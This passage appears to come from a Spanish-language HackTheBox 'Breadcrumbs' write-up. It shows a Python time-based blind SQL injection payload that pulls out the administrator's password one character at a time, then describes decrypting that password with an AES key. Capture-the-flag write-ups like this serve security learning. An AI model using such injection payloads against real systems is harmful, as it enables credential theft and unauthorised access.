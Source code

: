 > **SPOILER MÁQUINA CACHE**: La manera de los valores ascii la use en la [máquina **Cache**](https://lanzt.github.io/blog/htb/HackTheBox-Cache#explotacion), por si quieren hecharle un ojo.

👀

```py
...
        payload = "?method=select&"
        payload += "username=administrator' and if(substr((SELECT BINARY password FROM passwords WHERE account='administrator'),%d,1)='%s',sleep(3),1) and '1'='1&" % (position, letter)
        payload += "table=passwords"
...
```

![316bash_scriptSQLi_pass_caseSensitive](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_pass_caseSensitive.png)

Listo, ahora si (además que no nos muestra los `+`, asi que solucionamos dos problemas en uno), pero intentando con esa contraseña no obtenemos acceso tampoco... 

> Acá fue donde pense en la columna `aes_key` y que me faltaba el char "`_`" en el dic, (aca aún no me habia dado cuenta que me faltaba) asi que lo agregue y volvi a intentar, pero no, obtenemos la misma contraseña.

Asi que debemos hacer algo con:

```html
H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=
```

Si relacionamos la `aes-key` podemos pensar que debemos usarla para desencriptar la password y despues ahí si usarla contra el usuario `administrator` sobre `SSH`...

* [Usando esta web, logramos desencriptar la cadena](https://www.devglan.com/online-tools/aes-encryption-decryption).

![316google_aesdecrypt](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316google_aesdecrypt.png)
